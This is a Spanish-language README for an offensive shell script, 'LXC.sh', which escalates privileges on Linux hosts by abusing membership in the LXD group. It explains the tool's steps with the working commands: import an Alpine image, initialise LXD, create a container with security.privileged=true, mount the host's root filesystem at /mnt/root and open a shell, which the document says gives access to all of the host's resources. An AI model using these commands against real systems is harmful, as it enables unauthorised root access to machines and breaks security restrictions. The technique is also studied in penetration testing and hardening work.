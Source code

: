 
# LXC.sh

Este script se aprovecha de una deficiente gestión de permisos en el grupo LXD. Esta mala gestión de grupos permite al script realizar acciones indebidas, como manipular contenedores, acceder a recursos del sistema host o realizar modificaciones no autorizadas, violando las restricciones de seguridad establecidas.

# ¿Cómo funciona?

La ejecución de la herramienta mostrará el siguiente panel de ayuda:

<p align="center">
	<img src="Images/image1.png"
		alt="Panel de ayuda"
	style="float: left; margin-right: 10px;" />
</p>


Para su correcta ejecución, es necesario primero descargar el script el cual automatizará la creación de la imagen:

<p align="center">
	<img src="Images/image2.png"
		alt="DownloadI"
	style="float: left; margin-right: 10px;" />
</p>

Y ejecutar el script que creara la imagen:

<p align="center">
	<img src="Images/image3.png"
		alt="BuildImage"
	style="float: left; margin-right: 10px;" />
</p>

Finalmente, ejecutar el script para crear el contenedor y acceder a la ruta **/mnt/root** la cual contiene todos los recursos de la máquina anfitrión:

<p align="center">
	<img src="Images/image4.png"
		alt="Pwned"
	style="float: left; margin-right: 10px;" />
</p>

# Explicación

Lo primero que realiza el script es la importación de la imagen e inicializa el LXD

```bash
lxc image import $file --alias AlpineI && lxd init --auto
```
> LXD es una herramienta que gestiona y administra contenedores en entornos Linux.

Seguidamente, lo que se realiza es la inicialización del nuevo contenedor el cual contiene la flag **security.privileged=true** forzando al contenedor a interactuar como root con el sistema de archivos host.

```bash
lxc init AlpineI pwned -c security.privileged=true
```

Para luego añadir un dispositivo al contenedor el cual permite acceder a los recursos de la máquina anfitrión.

```bash
lxc config device add pwned GiveMeRoot disk source=/ path=/mnt/root recursive=true
```

Finalmente, se inicia el contenedor para luego ejecutar una shell dentro de esta.

```bash
lxc start pwned
lxc exec pwned /bin/sh
```
